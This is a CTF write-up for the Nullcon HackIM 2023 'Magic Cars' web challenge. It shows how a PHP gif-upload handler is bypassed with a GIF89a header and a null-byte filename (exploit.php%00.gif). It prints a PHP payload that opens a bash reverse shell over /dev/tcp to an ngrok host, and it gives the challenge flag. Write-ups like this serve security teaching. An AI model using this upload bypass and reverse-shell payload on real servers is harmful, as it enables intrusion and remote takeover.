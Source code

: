 # Nullcon Goa HackIM CTF 2023

## Web

<span style="font-size: larger;">Magic Cars</span>

Description: Who doesn't love Magical Cars? go checkout this cool website and even upload your fav gif to support it. Author: @moaath

## Challenge Overview
![Index](./images/index.png)

We have been given a website [http://52.59.124.14:10021/](http://52.59.124.14:10021/). We can see three options there. But only gallery seems to be interesting.

So first let's see the source code given.

```php
<?php
error_reporting(0);

$files = $_FILES["fileToUpload"];
$uploadOk = true;

if ($files["name"] != "") {
    $target_dir = urldecode("images/" . $files["name"]);

    if (strpos($target_dir, "..") !== false) {
        $uploadOk = false;
    }

    if (filesize($files["tmp_name"]) > 1 * 1000) {
        $uploadOk = false;
        echo "Too big!!!";
    }

    $extension = strtolower(pathinfo($target_dir, PATHINFO_EXTENSION));
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $type = finfo_file($finfo, $files["tmp_name"]);
    finfo_close($finfo);

    if ($extension != "gif" || strpos($type, "image/gif") === false) {
        echo " Sorry, only gif files are accepted";
        $uploadOk = false;
    }

    $target_dir = strtok($target_dir, chr(0));

    if ($uploadOk && move_uploaded_file($files["tmp_name"], $target_dir)) {
        echo "<a href='$target_dir'>Uploaded gif here. Go see it!</a>";
    }
}
?>
```


## Vulnerability Identification

As we can see the code is checking MIME type when we upload a gif. This leads to file upload vulnerability.

So adding gif header in the file the server can be easily exploited

[Reference](https://book.hacktricks.xyz/pentesting-web/file-upload)


## Exploiting the Vulnerability

So to exploit this we will set the header of the file to **GIF89a**. And then we will inject some php code to exploit the server.

We will name this file as exploit.php%00.gif. The nullbyte will bypass the checks performed and the name of the file which will be uploaded on the server will be exploit.php as it will ignore the part after the nullbyte.

So to exploit this server we will try to get a shell using **ngrok**

exploit.php%00.gif looks like:

```php
GIF89a
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16344 0>&1'");?>
```

## Obtaining the Flag

To retrieve the flag, we will use ngrok to get reverse shell.

After uploading the file when we open it we get the shell.

The flag is located in /var/www/html named **flag.flag**.

![Flag](./images/flag.png) 

Flag: **ENO{4n_uplo4ded_f1l3_c4n_m4k3_wond3r5}**

Thank You

